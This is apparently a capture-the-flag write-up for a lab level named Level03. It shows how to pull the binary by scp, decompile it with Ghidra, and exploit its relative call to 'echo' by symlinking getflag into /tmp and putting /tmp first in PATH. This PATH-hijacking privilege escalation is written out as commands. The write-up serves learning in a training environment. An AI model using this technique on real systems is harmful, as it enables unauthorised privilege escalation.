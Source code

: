# Level03

Download the level03 file on your local machine.
>`scp -P 4242 level03@<VM address>:level03 .`

We use ***Ghidra*** to decompile the code.
The program makes an unsecure call to `echo` without specifying the absolute path. We'll create a symlink to `getflag` and put it first in the `$PATH`.
>`ln -s /bin/getflag /tmp/echo`

>`export PATH="/tmp:$PATH"`

Get the flag.
>`./level03`
